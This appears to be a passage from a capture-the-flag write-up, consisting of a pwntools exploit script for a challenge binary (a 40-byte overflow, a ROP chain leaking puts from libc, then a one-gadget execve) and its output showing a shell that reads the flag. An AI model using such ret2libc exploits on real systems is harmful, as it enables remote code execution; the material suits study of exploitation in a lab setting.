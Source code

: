 ```
libc = ELF("./libc.so.6")

rop = ROP(elf)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]

r = remote("165.227.237.7", 32710)

buf = b""
buf += b"A"*40
buf += p64(pop_rdi)             # pop rdi; ret
buf += p64(elf.got.puts)        # puts() at GOT
buf += p64(elf.plt.puts)        # return to puts() at PLT to leak puts() at libc
buf += p64(0x00401066)          # re-exploit calculator() again

send_numbers()

print("Sending payload 1...")
r.sendline(buf)

r.recvline()
puts_leak = int.from_bytes(r.recvline()[:6], "little")
print(f"puts@libc leak: 0x{puts_leak:2x}")

libc.address = puts_leak - libc.sym.puts
print(f"libc base: 0x{libc.address:2x}")

execve_gadget_offset = 0x4f3d5
execve_gadget = libc.address + execve_gadget_offset
print(f"execve gadget: 0x{execve_gadget:2x}")

# overwrite calculator()'s saved return pointer with execve() gadget
buf = b""
buf += b"A"*40 + p64(execve_gadget)

send_numbers()

print("Sending payload 2...")
r.sendline(buf)

print("Getting shell...")
r.interactive()
```

And here it is in action:

```
► ./sploit.py SILENT=1
Sending numbers...
Sending payload 1...
puts@libc leak: 0x7fe80cb5faa0
libc base: 0x7fe80cadf000
execve gadget: 0x7fe80cb2e3d5
Sending numbers...
Sending payload 2...
Getting shell...
Problem ingored
$ cat flag.txt
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}
```
 